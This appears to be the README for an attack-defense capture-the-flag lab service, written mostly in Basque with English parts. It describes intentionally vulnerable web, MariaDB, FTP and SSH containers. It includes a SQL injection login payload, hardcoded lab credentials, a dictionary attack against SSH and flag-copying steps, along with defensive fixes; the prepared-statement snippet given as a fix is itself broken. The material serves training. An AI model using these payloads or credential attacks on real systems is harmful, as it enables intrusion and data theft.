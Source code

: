 # Service definition:
- 4 docker dauzkagu: 
1. Ubuntu:latest  ssh zerbitzuarekin eta flagak dituena.
2. fauria/vsftpd:latest ftp zerbitzuarekin eta flagak dituena ere. 
3. mariadb:latest mariadb datu base bat duena eta flagak dituena ere.
4. php:7.4-apache web zerbitzari bat duena.

Erasotzaileak web zerbitzaria sarrerea dauka eta bertan informazioa nola lortu bilatu behar du.
Flagak beste 3 dockerretan gordetzen dira. Flag guztiak mariadb, ftp eta ssh dockerretan gordetzen dira.

# Service implementation:
web dockerra src karpetan dauden index.html, login.php eta db.php fitxategien kopia ditu dockerraren /var/www/html/ karpetan.
  - Erasotzaileek db.php fitxategia aldatzeko aukera dute.

mariadb dockerran db izeneko datubase bat sortzen da:
  - usuarios taulan zenbait erabiltzaile eta pasahitz daude. (ftp dockerrarenak barne)
  - flags taulan txanda bakoitzeko flagak gordeko dira.

ftp dockerran usernames.txt eta passlist.txt izeneko bi fitxategi daude eta /home/vsftpd/ftpuser/ karpetan daude kokatuta.
  - Fitxategi hauen edukiak ezin dira aldatu.
  - Flagak flags.txt izeneko fitxategi batena gordeko dira aurreko fitxategin karpeta berean.

ssh docker is configured attending to the following tips:
  - It has openssh-server installed and started. 
  - It has a user called 'shaktale' whose password is 'fortrash'. 
  -'shaktale' user's password will never be changed. Moreover, if a team changes it, it will be losing SLa points. 
  -Flags: 
    Flags will be stored in '/tmp/flags.txt' file. 



# About exploting:
- Erasotzaileak SQL Injection eraso bat egin behar du web orrian. Horretarako (' or ''=') textu sartu beharko ditu web orriaren formularioaren 2 kutxatan.
- Erasoa ondo ateratzen bada, jatorrizko kodean datu-basean sartzeko kredentzialak ikusgai izango ditu.
- Defendatzailea mariadb-ko erabiltzaiearen pasahitza aldatu beharko du.
  Erasoa Team2-ren kontra
    - mariadb -upNce -pht3Zklyy db "SELECT flag FROM flags ORDER BY id DESC LIMIT 5;"
    - kopiatu azken 5 flagak.
    - Konektatua 10.0.2.1 makinara ssh bitartez eta bertan /root/xx.flag fitxtegian itsatsi.
  Defentza-rako 2 gauza egin daitezke:
    1. MariaDBko erabiltzaiearen pasahitza aldatu: mariadb -upNce -pht3Zklyy db "SET PASSWORD FOR 'pNce'@'%' = PASSWORD('newpass');"
    2. db.php fitxategian sql sententziaren exekuzioa preparedStatement batekin egin SQLinjection erasoa ekiditzeko (18. eta 19. lerrotan)
      $sql = "SELECT * FROM usuarios WHERE username=? AND password=?";
      $stmt = $mysqli->prepare($sql);
      $stmt->bind_param($username, $password);
      $result = $conn->execute($stmt);


- Erasotzailea mariadb zerbitzuan usuarios izeneko taula bat ikusiko du baita. Bertan erabiltzaile eta pasahitz batzuk aurkitutko ditu, ftp zerbitzukoak barne.
  Erasoa Team1-en kontra
    - usuarios taularen edukia lortu (select * from usuarios)
    - Erabiltzaile bakoitzeko ftp konekzioa bat saiatu erabiltzaile zuzena lortu arte (ftp VgMY@10.0.1.101 - pasahitza B5yYTXF3)
    - Behin konekzioa eginda 3 fitxategi aurkituko ditu: usernames.txt, passlist.txt eta flags.txt
    - flags.txt fitxategiko azkenengo flagak kopiatu eta 10.0.1.1 makinaren /root/xx.flag fitxategian kopiatu ssh bitartez.

  Defentza
    - ftp VgMY erabiltzaiaren pasahitza aldatu.

- Azken erasoa ssh zerbitzuaren kontra egingo da usernames.txt eta passlist.txt fitxategietan dagoen edukia erabilita, hiztegi eraso bat egiten.
  Attack performed against Team1. 
  Dictionary based attack until we find shaktale:fortrash user.
  ssh -p 8822 shaktale@10.0.1.101
        Enter 'fortrash' as password
  cat /tmp/flags.txt
     Copy last flags
     Exit
  'ssh root@10.0.1.1'
  nano /root/xxx.flag
    Paste copied flags. 

  Defense performed by Team1
     'ssh root@10.0.1.101'
     docker exec -it pasapasa_ssh_1 /bin/bash
     passwd shaktale
     

# Checker checks:
- Ports to reach dockers are open (WEB:80; MARIADB:3306, FTP: 21,20, SSH 8822)
- User 'shaktale' exists in pasapasa_ssh docker. 
- User 'VgMY' exists in pasapasa_ftp docker. 
- /etc/sshd_config file from pasapasa_ssh docker has not been changed. 
- index.html and login.php file's content from pasapasa_web docker has not been changed. 
- usernames.txt and passlist.txt file's content from pasapasa_ftp docker has not been changed. 

Checks done: 
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_web_1' It works OK, service's status becomes DOWN. 
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_mariadb_1' It works OK, service's status becomes DOWN.
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_ftp_1' It works OK, service's status becomes DOWN.
- TEAM 1. Stop the container: 'root@team0-services:~# docker stop pasapasa_ssh_1' It works OK, service's status becomes DOWN.
- TEAM 1. 'userdel shaktale'. It works OK, service's status becomes faulty. 
- TEAM 1. Change '/etc/sshd_config' file from 'pasapasa_ssh_1' docker. It works OK, service's status becomes faulty.
- TEAM 1. Change 'index.html' and/or 'login.php' file from 'pasapasa_web' docker. It works OK, service's status becomes faulty.
- TEAM 1. Change 'usernames.txt' and/or 'passlist.txt' file from 'pasapasa_ftp' docker. It works OK, service's status becomes faulty.
- TEAM 1. 'ssh service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'apache2 service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'mariadb service stop'. It works OK, service's status becomes faulty. 
- TEAM 1. 'vsftpd service stop'. It works OK, service's status becomes faulty. 



